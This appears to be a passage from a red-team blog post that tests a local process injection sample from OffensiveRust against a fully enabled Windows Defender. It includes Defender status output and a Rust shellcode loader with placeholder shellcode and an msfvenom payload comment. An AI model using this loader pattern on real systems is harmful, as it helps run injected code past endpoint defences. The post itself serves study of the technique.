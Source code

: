 ![](https://media.makeameme.org/created/a-computer-virus-34026ea93e.jpg)

In this section, we are going to test the classic `Process Injection` technique. 
Process injection is a method of executing arbitrary code in the address space of a separate live process. Running code in the context of another process may allow access to the process's memory, system/network resources, and possibly elevated privileges - *[MITRE T1055](https://attack.mitre.org/techniques/T1055/)*

There are many samples with different types of techniques in OffensiveRust github repo, testing them all will make this blog super lengthy. For now, let's test the `Local Process Injection` and `Remote Process Injection` samples. 

``` Windows Defender Information | Get-MpComputerStatus
AMEngineVersion                  : 1.1.20000.2
AMProductVersion                 : 4.18.2301.6
AMRunningMode                    : Normal
AMServiceEnabled                 : True
AMServiceVersion                 : 4.18.2301.6
AntispywareEnabled               : True
AntispywareSignatureAge          : 0
AntispywareSignatureLastUpdated  : 19-02-2023 13:33:44
AntispywareSignatureVersion      : 1.383.254.0
AntivirusEnabled                 : True
AntivirusSignatureAge            : 0
AntivirusSignatureLastUpdated    : 19-02-2023 13:33:44
AntivirusSignatureVersion        : 1.383.254.0
BehaviorMonitorEnabled           : True
ComputerState                    : 0
DefenderSignaturesOutOfDate      : False
IoavProtectionEnabled            : True
IsTamperProtected                : True
IsVirtualMachine                 : False
NISEnabled                       : True
NISEngineVersion                 : 1.1.20000.2
NISSignatureAge                  : 0
NISSignatureLastUpdated          : 19-02-2023 13:33:44
NISSignatureVersion              : 1.383.254.0
OnAccessProtectionEnabled        : True
ProductStatus                    : 524288
RealTimeProtectionEnabled        : True
```

### Local Process Injection

Source : [OffensiveRust - Shellcode_Local_Inject](https://github.com/trickster0/OffensiveRust/tree/master/Shellcode_Local_inject)

This is the most basic process injection, saving shellcode in the `.text` section of the program and execute it without any API calls.

```rust main.rs
use std::mem;

#[no_mangle]
#[link_section = ".text"]

// msfvenom -p windows/x64/exec CMD=calc.exe -f c
static SHELLCODE : [u8;276] = *b"SHELLCODEHERE";

fn main() {
  let exec_data: extern "C" fn () -> ! = unsafe { mem::transmute(&SHELLCODE as *const _ as *const ()) };
  exec_data();
}
```
